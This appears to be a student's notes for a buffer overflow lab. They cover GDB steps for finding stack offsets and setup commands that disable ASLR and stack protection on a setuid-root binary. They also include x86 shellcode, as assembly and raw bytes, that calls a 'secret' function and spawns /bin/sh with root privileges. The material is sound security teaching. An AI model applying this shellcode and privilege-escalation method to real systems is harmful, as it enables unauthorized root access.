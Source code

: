 # Buffer Overflow

![](https://scontent.xx.fbcdn.net/v/t1.15752-9/287382801_1012708796106310_3393263325642954415_n.png?stp=dst-png_s480x480&_nc_cat=104&ccb=1-7&_nc_sid=aee45a&_nc_ohc=OEfE7TGvRbcAX9Lwnqo&_nc_ad=z-m&_nc_cid=0&_nc_ht=scontent.xx&oh=03_AVJaBQXkeTQc3PbfYqHvYtXJEhUZnHG_3LUF_EvomUPjPQ&oe=62D10C9F)


![](https://scontent.xx.fbcdn.net/v/t1.15752-9/284937695_8397444896947802_7098575315767581280_n.png?stp=dst-png_p206x206&_nc_cat=109&ccb=1-7&_nc_sid=aee45a&_nc_ohc=h_6gXJaQYfsAX87Bvx-&_nc_ad=z-m&_nc_cid=0&_nc_ht=scontent.xx&oh=03_AVKzKVJLo4b6r2DPyj6_3K_JmVtxA9HT29wY-DC3cdIulw&oe=62D35345)

![](https://scontent.xx.fbcdn.net/v/t1.15752-9/285364149_1209590779795497_2438689606973803339_n.png?stp=dst-png_p206x206&_nc_cat=105&ccb=1-7&_nc_sid=aee45a&_nc_ohc=FEFsuA50wucAX_aWkCe&_nc_ad=z-m&_nc_cid=0&_nc_ht=scontent.xx&oh=03_AVKyLOeKgkxINCyuvAc6lFEvPwXVLGFWX6CUa5Cp0N2uNA&oe=62D361AE)


# GDB: Important Points
- ```next``` move to the next instruction
- ```stepi``` move to the next assembly instruction
- ```disas [Function]``` disassebles a specific function
- ```break [Function] ``` or ```break *address``` set a breakpoint
- Regarding setting breakpoints and getting the correct value of ```ebp``` see lecture **buffer_overflow_demo.mp4** (from 11:50)
    - Set breakpoints appropriately for getting the correct value of stack pointer ```ebp```
    - After getting to that breakpoint, it is better to use a ```next``` command to make sure that the value of ```ebp``` is updated properly

# Assembly: Important Points
- The return value of a function is stored in ```eax```


# Task
Prepare a payload (e.g badfile) which will cause the program to call the the *secret* function and then open a shell with root's privilege when executed by other users



# Step by Step Procedure

## Step 1: Setting up the environment and compiling target C file  
```bash
# setting up environments and permissions
sudo sysctl -w kernel.randomize_va_space=0
sudo ln -sf /bin/zsh /bin/sh
# set user as root
sudo su
# compiling the target file as root
gcc -m32 -o stack -z execstack -fno-stack-protector stack.c
sudo chown root stack
sudo chmod 4755 stack
# set user as a normal user (not root)
su seed
# compiling the target file with "-g" for gdb
gcc -m32 -o stack_dbg -g -z execstack -fno-stack-protector stack.c
```

## Step 2: Getting the return address and buffer address using gdb

```bash
# run gdb
$ gdb stack_dbg
# set a breakpoint at foo
gdb-peda$ b foo
gdb-peda$ run
# set a breakpoint ar bof
gdb-peda$ b bof
gdb-peda$ continue
gdb-peda$ next
# print the value of ebp register (stack fram pointer)
# i.e. top of the current stack frame I guess
gdb-peda$ p $ebp
$1 = (void*) 0xffffb828

# print the address of buffer
gdb-peda$ p &buffer     
$2 = (char(*)[614])0xffffb592

# print in decimal (/d) the address difference
gdb-peda$ p /d 0xb828 - 0xb592
$3 = 662

# get the starting address of the function secret
gdb-peda$ disas secret
Dump of assembler code for function secret:
   0x565562e5 <+0>:     endbr32
   0x565562e9 <+4>:     push ebp
   ...
End of assembler dump.
```


## Step 1: Creating *payload*/*badfile*
- The payload or the badfile is usually written in assembly 
- The corresponding assembly code is translated to machine code
- The machine code is used to create a *badfile*
- Our intention is to **make a call to the function *secret*** and **open a shell with root privilege**


### Step 1.1: Make a call to the function *secret*
```x86asm
mov ebx, 0x565562e5
call ebx
```
- ```0x565562e5``` is the address of the function ```secret``` which we figured out using GDB


### Step 1.2: Open a shell with root privilege
```x86asm
xor  eax, eax 
push eax          ; Use 0 to terminate the string
push "//sh"
push "/bin"
mov  ebx, esp     ; Get the string address

; Construct the argument array argv[]
push eax          ; argv[1] = 0
push ebx          ; argv[0] points "/bin//sh"
mov  ecx, esp     ; Get the address of argv[]

; For environment variable 
xor  edx, edx     ; No env variables 

; Invoke execve()
xor  eax, eax     ; eax = 0x00000000
mov   al, 0x0b    ; eax = 0x0000000b
int 0x80
```

The final output should look something like this
```x86asm
section .text
  global _start
    _start:
      mov ebx, 0x565562e5
      call ebx

      ; code to open a shell
      xor  eax, eax 
      push eax          
      push "//sh"
      push "/bin"
      mov  ebx, esp     
      ; Construct the argument array argv[]
      push eax          ; argv[1] = 0
      push ebx          ; argv[0] points "/bin//sh"
      mov  ecx, esp     ; Get the address of argv[]
      ; For environment variable 
      xor  edx, edx     ; No env variables 
      ; Invoke execve()
      xor  eax, eax     ; eax = 0x00000000
      mov   al, 0x0b    ; eax = 0x0000000b
      int 0x80
```

## Step 2: Generating Machine Code for payload

### Method 1: 

- Use the following two commands to generate the machine code

```properties
nasm -f elf32 <asm_filename>.s -o <asm_filename>.o
xxd -p -c 20 <asm_filename>.o
```

- Copy the machine code and format it using **convert.py**. Paste the copied machine code into the variable ```ori_sh``` on line no 5

```python
ori_sh ="""
bbe5625556ffd331
c050682f2f7368682f62696e89e3505389e131d2
31c0b00bcd80
"""
```

- Run **convert.py** to get the formattd machine code


### Method 2: 
- Use [this link](https://defuse.ca/online-x86-assembler.htm) to directly generate formatted machine code. Only use ```mov```, ```push```, ```xor``` etc. commands


### Machine code for opening a shell:
```
"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
"\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
"\xd2\x31\xc0\xb0\x0b\xcd\x80" 
```
